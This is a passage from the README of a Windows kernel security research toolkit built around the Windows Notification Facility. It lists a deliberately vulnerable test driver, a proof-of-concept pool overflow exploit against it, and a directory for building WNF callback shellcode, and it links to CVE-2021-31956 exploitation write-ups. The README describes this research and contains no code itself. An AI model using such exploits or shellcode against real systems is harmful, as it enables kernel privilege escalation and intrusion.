You can read the detailed information in [Alex Plaskett](https://twitter.com/alexjplaskett)'s talk and blogs ([Part 1](https://research.nccgroup.com/2021/07/15/cve-2021-31956-exploiting-the-windows-kernel-ntfs-with-wnf-part-1/), [Part 2](https://research.nccgroup.com/2021/08/17/cve-2021-31956-exploiting-the-windows-kernel-ntfs-with-wnf-part-2/), [Slide](https://research.nccgroup.com/2021/11/15/poc2021-pwning-the-windows-10-kernel-with-nfts-and-wnf-slides/)).

Reliability of the PoC is not 100%.
I defined kernel offset for all versions of Windows 10 x64, but only tested in Windows 10 Version 1903 x64.

| Project | Description |
| :--- | :--- |
| [PoolVulnDrv](./KernelPrimitive/PoolVulnDrv/) | This is a vulnerable kernel driver to test WNF kernel primitive. |
| [WnfPoolOverflow](./KernelPrimitive/WnfPoolOverflow/) | This is a PoC to exploit PoolVulnDrv. |




## WnfCallbackPayload

This directory contains documents and sample codes to build your own WNF callback shellcode.
See [README.md](./WnfCallbackPayload/README.md).


## Reference

[Back to Top](#sharpwnfsuite)

+ [Windows Notification Facility: Peeling the Onion of the Most Undocumented Kernel Attack Surface Yet](https://www.youtube.com/watch?v=MybmgE95weo)
+ [Playing with the Windows Notification Facility (WNF)](https://blog.quarkslab.com/playing-with-the-windows-notification-facility-wnf.html)
+ [wnfun](https://github.com/ionescu007/wnfun)
+ [Windows Process Injection : Windows Notification Facility](https://modexp.wordpress.com/2019/06/15/4083/)
+ [New WNF User Subscription Structures in Windows 11](https://mishap.dev/posts/new-wnf-user-subscription-structures-in-w11/)
+ [CVE-2021-31956 Exploiting the Windows Kernel (NTFS with WNF) – Part 1](https://research.nccgroup.com/2021/07/15/cve-2021-31956-exploiting-the-windows-kernel-ntfs-with-wnf-part-1/)
+ [CVE-2021-31956 Exploiting the Windows Kernel (NTFS with WNF) – Part 2](https://research.nccgroup.com/2021/08/17/cve-2021-31956-exploiting-the-windows-kernel-ntfs-with-wnf-part-2/)
+ [POC2021 – Pwning the Windows 10 Kernel with NTFS and WNF Slides](https://research.nccgroup.com/2021/11/15/poc2021-pwning-the-windows-10-kernel-with-nfts-and-wnf-slides/)

## Acknowledgments

[Back to Top](#sharpwnfsuite)

Thanks for your research:

+ Alex Ionescu ([@aionescu](https://twitter.com/aionescu))
+ Gabrielle Viala ([@pwissenlit](https://twitter.com/pwissenlit))
+ odzhan ([@modexpblog](https://twitter.com/modexpblog))
+ Alex Plaskett ([@alexjplaskett](https://twitter.com/alexjplaskett))

Thanks for your help:

+ mishap ([@oopsmishap](https://twitter.com/oopsmishap))
